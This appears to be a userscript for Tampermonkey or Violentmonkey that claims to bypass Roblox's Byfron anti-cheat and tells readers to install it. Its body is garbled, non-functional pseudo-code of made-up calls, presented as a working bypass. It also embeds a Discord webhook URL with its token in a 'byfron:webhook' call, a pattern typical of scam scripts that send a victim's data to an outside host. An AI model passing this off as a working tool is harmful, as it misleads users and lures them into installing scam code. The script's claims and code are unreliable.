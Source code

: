 // ==UserScript==
// @name        ByfronWebBypass 5.0
// @namespace   Violentmonkey Scripts
// @match       https://www.roblox.com/home
// @grant       none
// @version     5.0
// @author      bywkylex.wtf
// @description Destroy byfron. enjoy!
// ==/UserScript==
Web:RobloxGameClient[Client]:"5.0"
print("Successfully! Reverted RobloxGame")
html:print("Test Reverted Byfron")
ByfronWeb(bypass.Add(32x77))
Web:RobloxGameClient[deleteConsole=byfron.dll]:"5.0"
Roblox:Module("byfron.js")
byfron:webhook("https://discordapp.com/api/webhooks/1085900098782887976/EBBmyTVMk-XmoWuYoULv15d3QiVfaM-xe8OtLzxCLVZVndQg4zTVCM59W425Wop8UE6E")
byfron:htmlprint("Revert Successfully!  |  BySkylex!")
byfron:RobloxGameClient()
html()


Use them on website extension
Tampermonkey or VioletMonkey!

after Installed and
ReInstall roblox
